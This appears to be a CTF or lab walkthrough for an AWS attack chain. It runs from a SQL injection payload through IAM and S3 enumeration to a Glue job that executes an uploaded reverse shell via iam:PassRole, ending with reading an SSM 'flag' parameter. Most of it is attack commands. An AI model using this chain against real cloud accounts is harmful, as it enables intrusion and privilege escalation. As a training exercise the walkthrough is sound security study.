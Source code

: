 1. Sql Injection attack using burp suite

`' 1=1-- -`

2. Check glue administrator information

`aws configure --profile [glue_manager]`

3. Username Verification

`aws --profile [glue_manager] sts get-caller-identity`

4. Check inline policies

`aws --profile [glue_manager] iam list-user-policies --user-name [glue_username]`

5. Read more about inline policies

`aws --profile [glue_manager] iam get-user-policy --user-name [glue_username] --policy-name [inline_policy_name]`

6. Check the bucket granted to the privilege

`aws --profile [glue_manager] s3 ls s3://[bucket_name]`

7. Listing roles for using iam:passrole

`aws --profile [glue_manager] iam list-roles`

8. Inquiry permissions for roles

`aws --profile [glue_manager] iam list-attached-role-policies --role-name [role_name]`

9. Uploading reverse shell code(rev.py) created on the webpage

10. Create a glue job that executes reverse shell code

`aws --profile [glue_manager] glue create-job --name [job_name] --role [role_arn] --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://[bucket_name]/[reverse_shell_code_file]"}'`

11. Run a job

`aws --profile [glue_manager] glue start-job-run --job-name [job_name]`

12. Accessing SSM parameters

`aws ssm get-parameter --name flag`
